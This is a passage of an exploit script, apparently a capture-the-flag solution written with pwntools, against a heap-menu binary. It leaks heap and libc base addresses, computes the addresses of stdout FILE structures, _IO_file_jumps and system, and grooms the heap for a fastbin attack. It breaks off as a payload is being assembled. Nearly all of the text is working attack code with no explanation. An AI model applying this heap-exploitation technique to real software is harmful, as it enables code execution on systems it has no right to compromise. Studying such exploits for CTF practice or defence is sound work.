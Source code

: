 ```
pause()
insert(p8(3)*0x8)#3
delete(2) # not the chunk of the topchunk's pre that is ok.
merge(0, 0)
view(2)

heap_base = u64(p.recv(8))-0x120
unsorted_bin_addr = u64(p.recv(8))
libc_base = unsorted_bin_addr-unsorted_bin_off
log.info("heap_base: "+hex(heap_base))
log.info("libc_base: "+hex(libc_base))

top_chunk_off = 0x11580
top_chunk_addr = heap_base+top_chunk_off
log.info("top_chunk: "+hex(top_chunk_addr))

io_stdout_addr = libc_base+io_stdout_off
io_lock_addr = libc_base+io_stdfil_1_lock_off
io_file_jump_addr = libc_base+io_file_jumps_off
nl_clctype_class_addr = libc_base+nl_clctype_class_off

system_addr = libc_base+system_off

# fastbin attack

insert(p8(0)*0x10)
insert(p8(0)*0x10)

insert(p8(0)*0x1000)
insert(p8(0)*0x10)
merge(6, 6)
insert(p8(0)*0x1000)
merge(5, 6)
insert(p8(0)*0x1000)
merge(5, 8)
insert(p8(0)*0xff0)
merge(5, 6)

insert(p8(0)*0x1000)
insert(p8(0)*0x10)

insert(p8(0)*0x1000)
insert(p8(0)*0x1000)
merge(9, 10)

insert(p8(0)*0x1000)
insert(p8(0)*0x10)

insert(p8(0)*0x1000)
insert(p8(0)*0xff0)
merge(12, 13)

insert(p8(0)*0x1000)
insert(p8(0)*0x10)

insert(p8(0)*0x1000)
insert(p8(0)*0x1000)
merge(15, 16)

insert(p8(0)*0x1000)
insert(p8(0)*0x10)

payload = p8(0)*0x1b0
```